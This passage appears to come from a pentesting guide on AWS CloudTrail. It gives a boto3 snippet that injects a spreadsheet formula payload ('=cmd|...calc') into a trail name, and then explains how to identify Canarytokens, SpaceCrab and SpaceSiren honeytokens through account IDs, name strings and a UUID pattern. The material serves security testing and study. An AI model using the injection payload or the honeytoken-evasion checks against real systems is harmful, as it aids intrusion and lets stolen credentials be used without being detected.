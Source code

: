 ```python
import boto3
payload = "=cmd|'/C calc'|''"
client = boto3.client('cloudtrail')
response = client.create_trail(
	Name=payload,
	S3BucketName="random"
)
print(response)
```

For more information about CSV Injections check the page:

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/formula-injection
{{#endref}}

For more information about this specific technique check [https://rhinosecuritylabs.com/aws/cloud-security-csv-injection-aws-cloudtrail/](https://rhinosecuritylabs.com/aws/cloud-security-csv-injection-aws-cloudtrail/)

## **Bypass Detection**

### HoneyTokens **bypass**

Honeyokens are created to **detect exfiltration of sensitive information**. In case of AWS, they are **AWS keys whose use is monitored**, if something triggers an action with that key, then someone must have stolen that key.

However, Honeytokens like the ones created by [**Canarytokens**](https://canarytokens.org/generate)**,** [**SpaceCrab**](https://bitbucket.org/asecurityteam/spacecrab/issues?status=new&status=open)**,** [**SpaceSiren**](https://github.com/spacesiren/spacesiren) are either using recognizable account name or using the same AWS account ID for all their customers. Therefore, if you can get the account name and/or account ID without making Cloudtrail create any log, **you could know if the key is a honeytoken or not**.

[**Pacu**](https://github.com/RhinoSecurityLabs/pacu/blob/79cd7d58f7bff5693c6ae73b30a8455df6136cca/pacu/modules/iam__detect_honeytokens/main.py#L57) has some rules to detect if a key belongs to [**Canarytokens**](https://canarytokens.org/generate)**,** [**SpaceCrab**](https://bitbucket.org/asecurityteam/spacecrab/issues?status=new&status=open)**,** [**SpaceSiren**](https://github.com/spacesiren/spacesiren)**:**

- If **`canarytokens.org`** appears in the role name or the account ID **`534261010715`** appears in the error message.
  - Testing them more recently, they are using the account **`717712589309`** and still has the **`canarytokens.com`** string in the name.
- If **`SpaceCrab`** appears in the role name in the error message
- **SpaceSiren** uses **uuids** to generate usernames: `[a-f0-9]{8}-[a-f0-9]{4}-4[a-f0-9]{3}-[89aAbB][a-f0-9]{3}-[a-f0-9]{12}`
- If the **name looks like randomly generated**, there are high probabilities that it's a HoneyToken.

#### Get the account ID from the Key ID
